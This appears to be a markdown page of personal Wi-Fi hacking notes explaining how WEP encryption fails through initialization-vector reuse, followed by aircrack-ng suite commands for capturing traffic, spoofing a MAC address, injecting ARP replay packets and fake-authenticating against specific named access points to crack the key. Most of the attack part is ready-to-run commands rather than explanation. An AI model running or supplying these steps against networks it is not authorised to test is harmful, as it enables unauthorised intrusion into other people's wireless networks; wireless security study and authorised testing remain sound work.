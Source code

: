 ## Gaining Access

There are 3 most popular types of encryptions:

1. WEP
2. WPA
3. WPA2

### ad. 1 - WEP

Encryption is old, uses RC4 algorithm, can be cracked easly. WEP stands for Wired Equivalent Privacy. There are two kinds of WEP with keys of either 64bits or 128bits. The longer key gives a slightly higher level of security (but not as much as the larger number would imply). In fact the user keys are 40bits and 104bits long, the other 24bits in each case being taken up by a variable called the Initialization Vector (IV).

This is how it would work:

1. You intercept a packet
2. You look at the IV coming with this packet in clear
3. You check in your dictionary to see if you have the corresponding Keystream for this IV
4. If yes, you use the keystream to decrypt the message. If not, you keep the IV and wait for another encrypted packet with the same IV, which would allow to get Keystream for this IV (by XORing the two packets) and add it to your dictionary

#### If network is busy

We can caputer packages from clients connected to this network and find a password based on captured packages.

Listen our target network:

```bash
airodump-ng --bssid 74:EA:3A:DD:E8:3C --channel 6 --write netia wlan0
```

In the same time we can run aircrack which is trying calc password based on our stored file:

```bash
aircrack-ng netia-01.cap
```

Full attack:

```bash
ip link set dev wlan0 address 12:F5:C4:11:14:70
airodump-ng --bssid 88:F7:C7:44:B3:44 --channel 1 -w final02 -a wlan0
aireplay-ng -3 -b 88:F7:C7:44:B3:44 -h 12:F5:C4:11:14:70 -x 50 wlan0
aireplay-ng -1 0 -e Tech_D0062129 -a 88:F7:C7:44:B3:44 -h 12:F5:C4:11:14:70 wlan0
# aireplay-ng --fakeauth 0 -a 88:F7:C7:44:B3:44 -h 12:F5:C4:11:14:70 wlan0
```

#### If network is not busy

We can force on network network sending packages with IV to have enough data to crack the key.

Start injecting packets into the traffic to force AC to generate new packets with new IVs. It will increase number of data and allow to crack passwords.
